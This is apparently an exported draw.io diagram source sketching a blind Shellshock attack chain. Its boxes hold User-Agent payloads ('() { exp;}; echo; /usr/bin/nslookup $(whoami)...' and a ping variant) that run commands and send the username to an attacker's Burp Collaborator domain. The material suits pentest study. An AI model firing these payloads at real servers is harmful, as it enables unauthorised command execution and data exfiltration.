

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1195" dy="640" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="Cv7rTL05bRzs5y89fK1L-1" value="&lt;font style=&quot;font-size: 15px;&quot;&gt;&lt;b&gt;1st request - target page contain&lt;br&gt;Referrer: http://192.168.0.IP:8080&lt;br&gt;&lt;br&gt;User-Agent: () { exp;}; echo; /usr/bin/nslookup $(whoami).[burp collab link]&lt;/b&gt;&lt;/font&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="305" y="80" width="240" height="130" as="geometry" />
    </mxCell>
    <mxCell id="Cv7rTL05bRzs5y89fK1L-3" value="" style="endArrow=classic;html=1;rounded=0;fontSize=15;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="Cv7rTL05bRzs5y89fK1L-1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="390" y="360" as="sourcePoint" />
        <mxPoint x="425" y="280" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Cv7rTL05bRzs5y89fK1L-4" value="&lt;b&gt;2nd request - 192.168.0.IP machine&lt;br&gt;User-Agent:&amp;nbsp;&lt;span style=&quot;border-color: var(--border-color);&quot;&gt;() { exp;}; echo; /usr/bin/ping $(whoami).[burp collab link]&lt;/span&gt;&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="1">
      <mxGeometry x="305" y="280" width="235" height="120" as="geometry" />
    </mxCell>
    <mxCell id="Cv7rTL05bRzs5y89fK1L-5" value="" style="endArrow=classic;html=1;rounded=0;fontSize=15;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="Cv7rTL05bRzs5y89fK1L-4">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="390" y="420" as="sourcePoint" />
        <mxPoint x="423" y="520" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Cv7rTL05bRzs5y89fK1L-6" value="request" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=15;" vertex="1" parent="1">
      <mxGeometry x="430" y="230" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="Cv7rTL05bRzs5y89fK1L-7" value="request" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=15;" vertex="1" parent="1">
      <mxGeometry x="430" y="440" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="Cv7rTL05bRzs5y89fK1L-8" value="Our owned server - handle the response receive:&lt;br&gt;nameofthemachine.linkburpcollab" style="rounded=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="1">
      <mxGeometry x="305" y="520" width="235" height="140" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>